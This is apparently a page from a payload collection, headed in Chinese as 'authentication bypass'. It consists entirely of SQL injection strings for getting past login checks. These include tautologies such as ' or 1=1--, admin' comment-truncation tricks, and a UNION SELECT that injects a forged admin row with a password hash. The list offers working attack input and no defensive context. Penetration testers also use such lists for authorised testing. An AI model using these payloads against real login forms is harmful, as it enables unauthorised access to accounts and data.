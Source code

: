 ## 认证旁路
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
```